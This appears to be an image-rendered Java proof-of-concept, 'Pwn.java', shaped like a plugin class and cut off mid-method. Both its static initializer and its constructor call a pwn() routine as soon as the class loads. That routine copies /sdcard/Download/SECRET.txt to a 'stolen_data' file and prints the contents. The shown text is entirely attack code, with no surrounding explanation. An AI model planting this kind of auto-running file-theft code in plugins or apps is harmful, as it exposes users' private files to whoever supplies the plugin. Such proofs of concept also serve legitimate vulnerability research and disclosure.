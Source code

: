 ```java
// Pwn.java (SimplePlugin shape; static block + ctor both trigger)
import java.io.*;
import java.util.*;

public class Pwn {
    
 // Static block executes when class is loaded
 static {
  pwn();
 }
    
 // Constructor also executes
 public Pwn() {
  pwn();
 }
    
 private static void pwn() {
  try {
   String sourcePath = "/sdcard/Download/SECRET.txt";
   String destPath = "/sdcard/stolen_data.txt";
            
   File sourceFile = new File(sourcePath);
   File destFile = new File(destPath);
            
   // Check if source file exists
   if (!sourceFile.exists()) {
    System.err.println("[-] Source file not found: " + sourcePath);
    return;
   }
            
   // Copy the file
   copyFile(sourceFile, destFile);
   System.out.println("[+] File copied to: " + destPath);
            
   // Read and print the contents
   String contents = readFileContents(destFile);
   System.out.println("[+] File Contents:");
   System.out.println(contents);
            
  } catch (Exception e) {
   System.err.println("[-] Error: " + e.getMessage());
   e.printStackTrace();
  }
 }
    
 private static void copyFile(File sourceFile, File destFile) throws IOException {
  FileInputStream fis = null;
  FileOutputStream fos = null;
        
  try {
   fis = new FileInputStream(sourceFile);
   fos = new FileOutputStream(destFile);
            
   byte[] buffer = new byte[1024];
   int length;
            
   while ((length = fis.read(buffer)) > 0) {
    fos.write(buffer, 0, length);
   }
            
   fos.flush();
            
  } finally {
```